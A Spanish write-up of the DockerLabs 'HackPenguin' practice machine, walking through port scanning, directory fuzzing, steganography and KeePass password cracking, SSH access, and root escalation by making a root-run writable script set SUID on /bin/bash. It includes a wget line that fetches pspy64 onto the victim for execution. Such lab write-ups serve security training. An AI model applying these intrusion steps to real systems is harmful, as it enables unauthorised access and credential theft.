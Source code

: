 # [HackPenguin](https://dockerlabs.es/)

## Despliegue

Primero desplegamos la máquina con ```bash auto_deploy.sh hackpenguin.tar``` (si no sabes en la página de DockerLabs ahí un pdf que lo explica).


## Reconocimiento

Una vez desplegada comprobamos que tenemos conectividad con ```ping -c 1 172.17.0.2``` 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/af4d0189-b640-4576-aca6-3c02c75c9434)

`-c 1` ⮞ solo lo repite una vez

<br>

Ahora vamos con el reconocimiento de nmap ```nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2 -oG allPorts``` <br>
`-p-` ⮞ aplicar reconocimiento a todos los puertos <br>
`--open` ⮞ solo a los que estén abiertos <br>
`--min-rate 5000` ⮞ para enviar paquetes más rápido <br> 
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida <br> 
`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla <br> 
`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro)<br> 
`-Pn` ⮞ ignora si esta activa o no la IP<br> 
`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk)
<br>

Podemos ver los resultados en el archivo grepeable haciendo ```cat allPorts```, observamos que están abiertos los puertos **22** y **80**.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/6cfd1d77-2a62-4269-86e9-1892ca713d92)

<br>
<br>

## Página Web (Puerto 80)

Al ver que aloja un servidor web, nos dirigimos a él poniendo en el buscador la ip que en este caso sería `172.17.0.2:`. Observamos la página por defecto de `Apache 2`:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/a7adc3b7-b774-4c98-b19d-e9797b849b82)

<br>

### Gobuster

Si inspeccionamos el Código Fuente con `CTRL + U`, no encontraremos nada por lo que haremos un fuzzing `gobuster dir -w /home/kali/WordLists/directory-medium -u http://172.17.0.2 -x txt,sql,py,js,php,html`, nos detecta lo siguiente:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/eb5be65a-30b1-47a7-ac56-dd7dae1e9d62)

<br>

Nos dirigimos al archivo `penguin.html`, y vemos lo siguiente:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/9a649e71-8949-4a42-9fe3-2dbd730a7bcc)

<br>

### Estenografía

Probaremos a descargarnos la imagen y ver si se esconde algún archivo detrás de esta.
<br>

Usaremos `steghide` de la siguiente forma `steghide extract -sf penguin.jpg` pero como lo tenemos la passphrase no podremos extraerlo:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/f9a94c4a-53ea-4e43-99fc-ba3d596995fb)

<br>

Por lo que usaremos `stegseek` para crackear la passphrase, pondremos `stegseek --crack penguin.png /usr/share/wordlists/rockyou.txt output.txt`:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/d78de110-22d0-4bde-a93a-81642088ad53)

<br>

Vemos que detrás de la imagen se encontraba un archivo con extensión `.kdbx` (KeePass), y la passphrase era `chocolate`. Si probamos ha abrir el archivo con `keepassxc penguin.kdbx` y de contraseña ponemos `chocolate`, nos dará error:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/aa5708a1-7e32-41cd-9842-b339f4861155)

<br>

Por lo que probaremos a crackear la contraseña del archivo de KeePass `penguin.kdbx`, usaremos `keepass2john penguin.kdbx > hash`. Una vez tenemos el hash, haremos `john hash --wordlist=/usr/share/wordlists/rockyou.txt`, y tendremos el siguiente output:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/b2bb8227-8bf4-4271-a701-36b473797c46)

<br>

Una vez crackeada la contraseña, abrimos el archivo de KeePass con `keepassxc penguin.kdbx`, introducimos la contraseña **password1**, y nos sale lo siguiente:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/364b963b-d2c4-4c5c-841d-714560b5d97e)

<br>
<br>

## SSH (Puerto 22)

Por lo que una vez que tenemos un posible usuario **pinguino** y una contraseña **pinguinomaravilloso123**, probamos a autenticarnos por `ssh` de la siguiente forma `ssh pinguino@172.17.0.2`, introducimos la contraseña pero nos dará error.
Pero si observamos en Keepass arriba a la derecha, parece que hay un grupo de usuarios llamado **penguin**:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/b4f72b59-cc53-4554-8847-a38df4c1d4e6)

<br>

Entonces, probamos a autenticarnos con el grupo penguin `ssh penguin@172.17.0.2`, introducimos la contraseña y listo ya estamos dentro de la máquina HackPenguin:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/a5396f7c-1041-406b-9219-b74f6d102516)

<br>
<br>

## Escalada de Privilegios

No es necesario el tratamiento de la TTY escribimos `bash` y ya podemos operar cómodamente.

Ejecutamos el comando `sudo -l` para ver que podemos ejecutar como sudo, pero no encontramos nada: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/4dd9b7fc-b91c-44a0-baee-0eb9a7ae35a9)

<br>

Al igual que si ejecutamos `find / -perm -4000 2>/dev/null` en búsqueda de permisos SUID no encontramos nada potencial para escalar privilegios. 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/b9ba849c-cd57-4270-97d8-acd6e14ea0b1)

`/` ⮞ buscamos desde la raíz <br>
`-perm -4000` ⮞ mostrar los permisos SUID <br>
`2>/dev/null` ⮞ para que no nos muestre los errores 

<br>

Dado que no hemos encontrado nada pasaremos a intentar buscar algún archivo con información, y en el directorio personal de penguin (`/home/penguin`), encontramos lo siguiente:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/fded3f82-66c7-4e90-aa0e-877fd8be3f94)

<br>

Si vemos el contenido de estos, encontraremos lo siguiente:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/f9199a0a-5857-44e1-840a-35402ca2c816)

<br>

Ahora vamos a ver los procesos en ejecución para ello usaremos la herramienta [pspy64](https://github.com/wildkindcc/Exploitation/blob/master/00.PostExp_Linux/pspy/pspy64), nos la compartimos con la máquina víctima con python `python3 -m http.server`:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/05db4342-0ab3-4a50-a163-85eccdd28aa9)

<br>

Y en la máquina víctima usaremos `wget 172.17.0.1/pspy64`:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/12279c83-d07b-406c-9a2a-da5647012062)

<br>

Le damos permisos de ejecución `chmod +x pspy64`, y lo ejecutamos `./pspy64`:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/6efe3a84-bb05-4c1f-a064-7d50cdb92139)

<br>

Vemos que el usuario root esta ejecutando todo el rato el archivo `script.sh`, y como tenemos permiso de modificación sobre dicho archivo:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/de374552-32ca-44e2-bc90-39095084a83e)

<br>

Pasaremos a modificar su contenido y añadiremos la siguiente línea:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/ba2b368d-fc4d-4e44-8445-d486b5d59ba1)

<br>

Lo que hace está línea es otorgar permisos SUID a la `/bin/bash`, comprobamos que los tiene:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/fe0dbfea-b3b3-48b7-b849-15bb58b35e1d)

<br>

Una vez que la `/bin/bash` tiene permisos SUID, ejecutaremos `/bin/bash -p` y listo ya somos **root!** 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/eb44cc6f-d165-4b29-99d6-2005e5f29819)